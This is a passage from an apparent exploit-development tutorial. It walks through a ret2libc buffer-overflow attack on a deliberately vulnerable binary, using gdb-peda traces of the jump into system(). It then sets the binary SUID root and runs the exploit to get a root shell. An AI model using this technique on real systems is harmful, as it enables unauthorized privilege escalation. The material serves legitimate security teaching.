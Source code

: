 Now RIP points to ret and RSP points to the address of system(). Step in again and we should now be in system()

```
gdb-peda$ si
.
.
.
[-------------------------------------code-------------------------------------]
   0x7ffff7a5ac35 <cancel_handler+181>: pop    rbx
   0x7ffff7a5ac36 <cancel_handler+182>: ret
   0x7ffff7a5ac37:  nop    WORD PTR [rax+rax*1+0x0]
=> 0x7ffff7a5ac40 <system>: test   rdi,rdi
   0x7ffff7a5ac43 <system+3>:   je     0x7ffff7a5ac50 <system+16>
   0x7ffff7a5ac45 <system+5>:   jmp    0x7ffff7a5a770 <do_system>
   0x7ffff7a5ac4a <system+10>:  nop    WORD PTR [rax+rax*1+0x0]
   0x7ffff7a5ac50 <system+16>:  lea    rdi,[rip+0x13744c]        # 0x7ffff7b920a3
```

At this point if we just continue execution we should see that "/bin/sh" is executed:

```
gdb-peda$ c
[New process 11114]
process 11114 is executing new program: /bin/dash
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 1: No symbol "vuln" in current context.
Error in re-setting breakpoint 1: No symbol "vuln" in current context.
Error in re-setting breakpoint 1: No symbol "vuln" in current context.
[New process 11115]
Error in re-setting breakpoint 1: No symbol "vuln" in current context.
process 11115 is executing new program: /bin/dash
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 1: No symbol "vuln" in current context.
Error in re-setting breakpoint 1: No symbol "vuln" in current context.
Error in re-setting breakpoint 1: No symbol "vuln" in current context.
[Inferior 3 (process 11115) exited normally]
Warning: not running or target is remote
```

Perfect, it looks like our exploit works. Let's try it and see if we can get a root shell. We'll change ret2libc's owner and permissions so that it's SUID root: 

```
koji@pwnbox:~/ret2libc$ sudo chown root ret2libc
koji@pwnbox:~/ret2libc$ sudo chmod 4755 ret2libc
```

Now let's execute our exploit much like we did in part 1:

```
koji@pwnbox:~/ret2libc$ (cat in.txt ; cat) | ./ret2libc
Try to exec /bin/sh
Read 128 bytes. buf is AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
No shell for you :(
whoami
root
```
